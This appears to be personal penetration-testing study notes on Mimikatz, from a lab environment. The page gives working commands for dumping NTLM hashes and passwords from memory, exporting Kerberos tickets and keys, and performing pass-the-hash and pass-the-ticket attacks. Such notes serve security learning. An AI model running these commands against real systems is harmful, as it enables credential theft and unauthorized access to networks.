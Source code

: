 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Mimikatz is a windows tool for extracting plaintext passwords, hashes, PIN codes, and kerberos tickets from memory. It is also capable of performing Pass-the-Hash, Pass-the-Ticket, or build *Golden* tickets.
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of the tool that can be run on linux systems.
> [Linikatz](https://github.com/CiscoCXSecurity/linikatz) performs a similar role for linux too

## Installation
Pre-built binaries available in the git repo: https://github.com/gentilkiwi/mimikatz/releases
## Documentation
**Cheatsheet:** 
**Website:** https://github.com/gentilkiwi/mimikatz
## Usage
### Obtaining Hashes & Tickets
```batch
# Obtain NTLM hashes for users
C:\> mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit

# Obtain Kerberos Tickets (This potentially doesn't work for some W10 versions as it uses the wrong encryption)
C:\> mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit

C:\> dir *.kirbi

<SNIP>
-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-johnny@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
<SNIP>

```
> For the tickets:
> - If it ends with `$` (Result 2 above) then it corresponds to the computer account (allowing the system to interact with Active Directory)
> - User tickets have the user's name (Result 1 above) followed by an `@` then the service name and domain. It follows the format `[random_value]-username@service-domain.local.kirbi`
> - If a user ticket has the service `krbtgt` then it is the [[Operating Systems/Windows/Kerberos#Ticket Granting Ticket (TGT)|TGT]] of that account.

### Exporting Kerberos Keys
Keys are not the same as tickets, they are encryption keys that Kerberos uses for creating TGTs.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

### Pass-the-Hash
Using the `sekurlsa::pth` module we can perform a pass-the-hash attack. It starts a process using the user's hash.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /NTLM:<hash> /domain:<AD_domain> /run:cmd.exe" exit
```
> We can specify any program in the `/run:` flag to launch any program but a shell is often most useful.

### Pass the Ticket
Using the `kerberos::ptt` module we can perform a pass-the-ticket attack using a `.kirbi` ticket file.
```batch
C:\> mimikatz.exe privilege::debug "kerberos::ptt <ticket_file> exit
```